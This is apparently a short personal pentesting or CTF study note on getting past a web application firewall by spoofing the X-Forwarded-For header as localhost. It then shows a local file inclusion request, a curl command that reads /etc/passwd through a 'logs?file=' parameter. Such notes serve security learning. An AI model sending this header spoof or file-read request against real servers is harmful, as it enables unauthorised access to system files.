 ### WAF Web Application Firewall
![[Pasted image 20220307105734.png]]
WAF: Access Denied for this Host.
X-Forwarded-For Header
"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."
```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```
Ensure we have TWO blank lines under this (lines 8 and 9 in photo)
![[Pasted image 20220307111047.png]]
LFI
![[Pasted image 20220307120119.png]]
```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```
[[3._LFI RFI]]
#### Examples
[[GraphQL Graphiql]]